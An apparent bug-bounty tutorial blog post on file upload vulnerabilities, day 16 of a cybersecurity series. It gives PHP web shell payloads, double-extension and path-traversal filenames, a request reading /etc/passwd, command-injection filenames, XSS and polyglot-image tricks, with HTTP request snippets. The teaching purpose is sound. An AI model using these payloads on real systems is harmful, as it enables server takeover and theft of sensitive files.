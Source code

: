 ```yaml
---
title: <img width="50" height="50" alt="img" src="https://github.com/thelocalh0st/thelocalh0st.github.io/assets/95465072/72322038-9495-47ba-bf30-0caa7c1a7968"> File Upload Vulnerabilities 🗃️ 
date: 2023-12-25 07:00:02 +730
categories: [Resources, bugbounty]
tags: [fileupload-vulnerability,bug-bounty,100-days-of-cybersecurity] # TAG names should always be lowercase
mermaid: true

---
```


<h1 style="color: cyan; text-align: center">100 Day's Of Cybersecurity - Day 16</h1>


![File-Upload-Vulnerability-2760290964](https://github.com/thelocalh0st/thelocalh0st.github.io/assets/95465072/72322038-9495-47ba-bf30-0caa7c1a7968){: .dark .w-75 .shadow .rounded-10 w='1212' h='668' }





# 1. Unrestricted File Type Upload:


Allowing users to upload files without proper validation can lead to the execution of malicious scripts. An attacker may upload a file with a double extension, such as "malicious.php.jpg," tricking the system into treating it as an image file while executing PHP code.

**Example Payloads:**
```php
<?php echo passthru($_GET['cmd']); ?>
```

```php
<?php echo exec($_POST['cmd']); ?>
```
```php
<?php system($_GET['cmd']); ?>
```
```php
<?php passthru($_REQUEST['cmd']); ?>
```

**Request Snippet:**
```http
POST /upload HTTP/1.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXYZ
Content-Disposition: form-data; name="file"; filename="malicious.php.jpg"
Content-Type: image/jpeg

...binary data of the image...
```

# 2. File Size Limit Bypass:


Attackers can attempt to bypass file size restrictions by compressing files or splitting them into smaller parts. This may allow them to upload content exceeding the specified limits.

**Example Payload:**
```bash
# Splitting a file into parts
split -b 1M largefile.txt part
```

**Request Snippet:**
```http
POST /upload HTTP/1.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXYZ
Content-Disposition: form-data; name="file"; filename="part1"
Content-Type: text/plain

...binary data of part 1...

POST /upload HTTP/1.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXYZ
Content-Disposition: form-data; name="file"; filename="part2"
Content-Type: text/plain

...binary data of part 2...
```

# 3. Malicious File Content:


Attackers may manipulate file content to include malicious scripts or payloads, exploiting vulnerabilities in server-side processing.

**Example Payload:**
```html
<script>alert('XSS Attack');</script>
```

**Request Snippet:**
```http
POST /upload HTTP/1.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXYZ
Content-Disposition: form-data; name="file"; filename="malicious.html"
Content-Type: text/html

<script>alert('XSS Attack');</script>
```

# 4. Path Traversal Attacks:


Path traversal vulnerabilities may allow attackers to upload files outside the intended directory, potentially gaining unauthorized access to sensitive information.

> The restrication may not be in the previous directory ! 😜 


**Example Payload:**
```http
POST /upload HTTP/1.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXYZ
Content-Disposition: form-data; name="file"; filename="../sensitivefile.txt"
Content-Type: text/plain

...binary data of the file...
```

# Remote Command Execution (RCE) via File Name Parameter

If the application includes custom image processing or file manipulation, it may be susceptible to remote command execution through code injection in the file name.

## Example Valid File Names and Payloads:

| File Name            | Payload        | Outcome if Vulnerable  |
|----------------------|----------------|------------------------|
| a$(whoami)z.jpg      | $(whoami)      | a[CURRENT USER]z.jpg   |
| a\`whoami\`z.jpg     | \`whoami\`     | a[CURRENT USER]z.jpg   |
| a;sleep 30;z.jpg     | ;sleep 30;     | The application will take 30+ seconds to respond |



# 5. Denial of Service (DoS) through File Uploads:


Attackers may overwhelm the server by uploading a large number of files simultaneously.

**Example Payload:**
```bash
# Generating a large file
dd if=/dev/zero of=largefile.txt bs=1M count=100
```

**Request Snippet:**
```http
POST /upload HTTP/1.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXYZ
Content-Disposition: form-data; name="file"; filename="largefile.txt"
Content-Type: application/octet-stream

...binary data of the large file...
```

# 6. Image-Based Attacks (Polyglot):


Exploiting vulnerabilities in image processing libraries to execute arbitrary code.

<iframe width="560" height="315" src="https://www.youtube.com/embed/uGk5_yDbSeQ?si=BKDXh1Xh7H_pMhkb" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen></iframe>

> simple way to achive this is using exiftool and embed the php webshell via comeents
{: .prompt-info }


**Example Payload (Image with Embedded Malicious Code):**
```bash
# Embedding malicious code in an image
echo -n '<?php system("ls -la"); ?>' >> malicious.jpg
```

**Request Snippet:**
```http
POST /upload HTTP/1.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXYZ
Content-Disposition: form-data; name="file"; filename="malicious.jpg"
Content-Type: image/jpeg

...binary data of the image...
```

# 7. Insecure Direct Object References (IDOR):

**Vulnerability Description:**
File upload functionalities may introduce IDOR vulnerabilities, allowing attackers to manipulate file references.

**Example Payload:**
```http
GET /download?file=../../../etc/passwd HTTP/1.1
```

In this case, an attacker manipulates the file parameter to access sensitive files.

These examples illustrate the technical aspects of common file upload vulnerabilities and highlight the importance of implementing robust security measures to protect against them. Always validate, sanitize, and restrict file uploads to ensure the integrity and security of your web application.



![](https://media.giphy.com/media/DAtJCG1t3im1G/giphy.gif)
